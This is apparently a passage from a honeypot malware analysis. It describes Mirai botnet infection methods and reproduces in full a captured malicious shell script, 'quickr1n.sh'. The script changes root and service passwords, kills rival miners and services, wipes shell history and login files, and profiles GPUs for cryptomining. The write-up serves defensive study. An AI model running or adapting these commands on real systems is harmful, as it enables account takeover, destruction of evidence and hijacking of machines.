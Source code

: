 After compromising an array of machines, C2 servers can utilize many DDoS techniques such as HTTP, TCP, and UDP flooding [(T1498.001.)](https://attack.mitre.org/techniques/T1498/001/)

Mirai focuses on infecting as many devices as possible, which isn’t difficult due to the lack of security within Internet of Things (IoT) devices.

![Untitled 7](https://user-images.githubusercontent.com/85040841/156162111-68ea2c5e-8bc0-4b3e-8c81-d7d8532938f5.png)

Initially, Mirai compromised IoT devices with brute-force attacks that filled in 64 sets of default usernames and passwords like “admin” and “password.”

However, its latest modules use up-to-date vulnerabilities to maximize efficiency.

This can be seen in newer variants of the botnet, such as “IoT.Linux.MIRAI.VWISI” found in July 2020, which uses [CVE-2020-10173](https://nvd.nist.gov/vuln/detail/CVE-2020-10173) to exploit Comtrend VR-3033 routers.

Even more recently, AT&T’s Alien Labs identified a variant dubbed “Moobot” sharply increasing its scans for Tenda routers that are exploitable with a critical remote code execution (RCE) vulnerability.

## quickr1n.sh — Recon for Cryptominers

Here’s the content of `quickr1n.sh`, a malicious shell script that was executed on Cowrie:

```ruby
echo root:r14sdgs24h3h12sd344|chpasswd|bash;
echo gns3:1r43gs1asdan4asd4asd113s24h3h12344| sudo chpasswd -e
echo jenkins:r4113asdgs2asd4g1s324h3h12344| sudo chpasswd -e
echo ansible:r4131asdg1saasd14sn43gd24h3h12344| sudo chpasswd -e
#temp_root_pass
pkill java; pkill ntpd; pkill screen; pkill cnrig;
pkill xmrig; pkill brrr; pkill x86_64; pkill x86;
pkill docker; pkill tsm; pkill krn;
pkill ip; pkill .dhpcd; pkill xms;
echo fk
rm -rf /root/.history
rm -rf /root/*_history
rm -rf /root/.login
rm -rf /root/.logout
rm -rf /root/.bash_logut
rm -rf /root/.Xauthority
echo 1
nvidia-smi -q | grep "Product Name" | awk '{print $4, $5, $6, $7, $8, $9, $10, $11}' | grep . -c
lspci | grep "3D controller" | cut -f5- -d ' '
lspci | grep VGA -c
lspci | grep VGA | cut -f5- -d ' '
uptime -p
ip r | grep -Eo '[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}/[0-9]{1,2}'
history -n; history -c
cat /dev/null > ~/.bash_history && history -c
echo done
```
